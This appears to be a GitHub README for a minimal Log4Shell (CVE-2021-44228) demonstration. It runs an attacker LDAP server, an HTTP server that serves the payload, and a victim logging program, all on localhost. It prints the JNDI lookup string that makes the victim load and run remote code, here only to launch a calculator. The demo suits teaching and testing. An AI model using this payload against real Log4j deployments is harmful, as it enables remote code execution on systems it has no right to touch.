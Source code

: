 # Log4Shell Demo Exploit

This is a minimal demo exploit for the Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)).
I created this to have a stripped-down demo that strictly focuses on the essentials instead of drowning in a bunch of Docker Compose/Node.js/Spring/Tomcat/... cruft.

The `LDAPRefServer` class was snatched from the MIT-licensed [marshalsec](https://github.com/mbechler/marshalsec) repository.
All other code in this repository is in the public domain.

## Prerequisites
* A UNIX shell
* Java
* Maven
* Python 3

## How to run

You need three console tabs: two for the attacker infrastructure and one for the victim.

### Attacker LDAP server
```sh
cd attacker/ldap
./ldapserver
```
This will open a JNDI LDAP server on port 1389.
The server will answer requests by referring the victim to the exploit payload served by the HTTP server.

### Attacker HTTP Server
```sh
cd attacker/http
./httpserver
```
This will compile the exploit payload and open an HTTP server on port 8888 that delivers the `Payload.class` file to would-be victims.

### Victim
```sh
cd victim
./victim
```
Now you can type in arbitrary lines of text and watch them being logged.
To trigger the vulnerability in Log4j, enter the following input:
```
${jndi:ldap://localhost:1389/a}
```
The exploit will trick the victim process into launching a calculator.
